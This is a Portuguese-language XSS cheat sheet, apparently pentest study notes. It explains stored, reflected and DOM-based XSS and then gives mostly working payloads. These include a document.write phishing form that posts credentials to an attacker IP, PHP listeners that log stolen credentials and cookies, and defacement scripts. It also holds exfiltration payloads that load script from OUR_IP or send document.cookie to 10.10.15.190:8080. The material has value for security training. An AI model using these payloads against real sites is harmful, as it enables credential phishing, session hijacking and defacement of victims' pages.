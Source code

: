 # XSS

Existem **três tipos principais** de vulnerabilidades XSS:

| Tipo                         | Descrição |
|-----------------------------|-----------|
| **Stored (Persistent) XSS** | O tipo mais crítico de XSS, ocorre quando a entrada do usuário é armazenada no banco de dados do back-end e, em seguida, exibida posteriormente (ex: postagens ou comentários). |
| **Reflected (Non-Persistent) XSS** | Ocorre quando a entrada do usuário é refletida imediatamente na página após ser processada pelo servidor, sem ser armazenada (ex: resultados de pesquisa ou mensagens de erro). |
| **DOM-based XSS** | Um tipo de XSS não persistente que acontece quando a entrada do usuário é manipulada diretamente pelo navegador, sem passar pelo servidor (ex: parâmetros de URL ou tags de âncora). |

### Exemplos simples de payloads:

```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
<html%0aonpoIntEreNtER+=+[8].find(confirm)//>
<details%09ontoGGle%09=%09[8].find(confirm)%0dx//>
```
Ferramenta útil: [URL/HTML Decoder - Eric Meyer](https://meyerweb.com/eric/tools/dencoder/)

---

### ✳️ DOM-Based XSS - Source & Sink

Para compreender XSS baseado em DOM, é essencial entender os conceitos de:

* **Source**: Objeto JavaScript que recebe a entrada do usuário (ex: parâmetros de URL, campos de input).
* **Sink**: Função que escreve a entrada do usuário no DOM. Se não sanitizar corretamente, permite ataques XSS.

### Funções JavaScript comuns como *sink*:

* `document.write()`
* `element.innerHTML`
* `element.outerHTML`

### Funções jQuery vulneráveis:

* `add()`
* `after()`
* `append()`

---

### 🎣 XSS Phishing

Simulando um formulário de login falso via XSS (passar no parâmetro vulnerável):

```html
document.write('<h3>Please login to continue</h3><form id="urlform" action="http://172.17.173.25"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById("urlform").remove();</script> <!--

```
Backend para captura de credenciais no seu host (ex na sua maquina atacante, um arquivo: index.php):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    fclose($file);
    header("Location: http://SERVER_IP/phishing/index.php");
    exit();
}
?>
```
Host local com servidor PHP:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
sudo php -S 0.0.0.0:80
```

---

### 🖥️ XSS Defacement
Altera o conteúdo visual da página:

```html
<script>document.body.style.background = "black"</script>
<script>document.title = "deface"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = "Deface"</script>

<script>
document.getElementsByTagName('body')[0].innerHTML = `
  <center>
    <h1 style="color: black">Protect this site, fellas</h1>
    <p style="color: white">
      by <img src="https://i.imgflip.com/1gpstz.jpg" height="1000px">
    </p>
  </center>`;
</script>

#Payload 1
<script>
  document.body.innerHTML = 
    <center>
      <iframe title="Doom" width="1000" height="900" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>
      <br><br><br><br>
    </center>
  ;
</script>

#Payload 2
<iframe title="Doom" width="500" height="400" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>
```

---

### 🍪 XSS Session Hijacking / Blind XSS

Backend para roubo de cookies (ex: index.php):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $cookie) {
        $cookie = urldecode($cookie);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Host local para escuta:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
php -S 0.0.0.0:4444
```
Payloads de exfiltração:

```html
<script src="http://OUR_IP"></script>
'><script src="http://OUR_IP"></script>
"><script src="http://OUR_IP"></script>

javascript:eval('var a=document.createElement("script");a.src="http://OUR_IP";document.body.appendChild(a)')

<script>
function b(){eval(this.responseText)};
a = new XMLHttpRequest();
a.addEventListener("load", b);
a.open("GET", "//OUR_IP");
a.send();
</script>

<script>$.getScript("http://OUR_IP")</script>

"><script>new Image().src='http://10.10.15.190:8080/index.php?c='+document.cookie</script>
```

